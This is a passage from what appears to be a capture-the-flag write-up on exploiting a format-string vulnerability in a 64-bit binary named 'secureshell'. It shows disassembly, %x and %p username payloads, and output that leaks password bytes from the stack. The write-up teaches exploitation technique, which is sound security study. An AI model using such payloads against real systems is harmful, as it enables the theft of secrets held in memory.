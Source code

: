 Here is the code that is executed when an invalid username is detected:

```
lea     rdi, aInvalidUsernam ; "Invalid Username: "
mov     eax, 0
call    _printf
lea     rax, [rbp+s2]
mov     rdi, rax        ; format
mov     eax, 0
call    _printf
mov     edi, 1          ; status
call    _exit
```

We have 2 `printf` calls followed by an `exit` call.  Notice that the `format` argument for the second `printf` call is not hardcoded.  This often times indicates a string format vulnerability.  Let's try it out and see if it works.

```
$ ./secureshell 
Welcome to my custom secure shell!
Username: %x.%x.%x.%x.
Invalid Username: ad6c5230.7b2d68c0.0.12.
```

### Exploit time!

Notice above I used the `%x` strfmt string.  This is typically useful for 32-bit binaries, but since we are working with a 64-bit binary, we will actually want to use `%p` instead.  I'm going to try the strfmt vuln again, but this time with `%p` and I am going to use a lot more.

```
$ ./secureshell 
Welcome to my custom secure shell!
Username: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Invalid Username: 0x7fff248803c0.0x7fc8d536e8c0.(nil).0x12.(nil).0x4.0x55a9fec3f260.0x4141414141414141.0x4141414141414141.0x4141414141414141.0x4141414141414141.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).
```

Whoah, look at that, the following values are especially interesting: `0x4141414141414141.0x4141414141414141.0x4141414141414141.0x4141414141414141`.

For those that don't have the ASCII table memorized, `0x41` decodes to `A` in ASCII.  So we are able to successfully leak the contents of `password.txt` from the stack.  However, before running this on the server, it's worth mentioning that Linux binaries typically are compiled for little-endian mode.  This means that each 64-bit value will need to reverse endian.  I will show by example.

Let's first set a new password:

```
$ printf 'ABCDEFGHIJKLMNOPQQQQQQQQQQQQQQQQ' > password.txt
```

Now let's try the same strfmt payload:
